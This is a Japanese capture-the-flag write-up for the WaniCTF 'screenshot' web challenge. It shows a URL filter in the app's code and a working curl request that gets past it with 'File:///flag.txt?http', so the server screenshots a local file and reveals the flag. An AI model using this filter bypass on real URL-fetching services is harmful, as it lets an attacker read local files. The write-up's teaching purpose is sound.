


# screenshot:Web:200pts
好きなウェブサイトのスクリーンショットを撮影してくれるアプリです。  
An application that takes screenshots of your favorite websites.  
[https://screenshot-web.wanictf.org](https://screenshot-web.wanictf.org/)  

[web-screenshot.zip](web-screenshot.zip)  

# Solution
よくあるスクリーンショットアプリだ。  
  
ボタンを押すと画像がスクリーンショット画像が返ってくる。  
URLは`https://screenshot-web.wanictf.org/api/screenshot?url=https://www.example.com/`であった。  
配布されたDockerfileより、フラグは`/flag.txt`にあるとわかる。  
```Dockerfile
FROM node:18.12.1-bullseye-slim

WORKDIR /app

# Install dependencies
COPY ./package.json ./package-lock.json /app/
RUN PLAYWRIGHT_SKIP_BROWSER_DOWNLOAD=1 npm ci
RUN npx playwright install --with-deps chromium

COPY . /app
COPY ./flag.txt /flag.txt

ENTRYPOINT ["node", "src/index.js"]
```
`file:///flag.txt`で終わりそうだが、おそらく何らかのフィルタがかかっているようなのでindex.jsを読む。  
```js
~~~
      if (!req.query.url.includes("http") || req.query.url.includes("file")) {
        res.status(400).send("Bad Request");
        return;
      }
~~~
```
`http`が入っており、`file`が入っていないことが求められている。  
`file`は`File`とすれば突破できる。  
問題は`http`だが、こちらもfile schemeにはクエリが使えるので、`?http`などを付加してやればよい。  
以下の通りに`/flag.txt`を撮る。  
```bash
$ curl 'https://screenshot-web.wanictf.org/api/screenshot?url=File:///flag.txt?http' -o flag.png
```
  
flagがスクリーンショットできた(Leetじゃないところがいい)。  

## FLAG{beware_of_parameter_type_confusion!}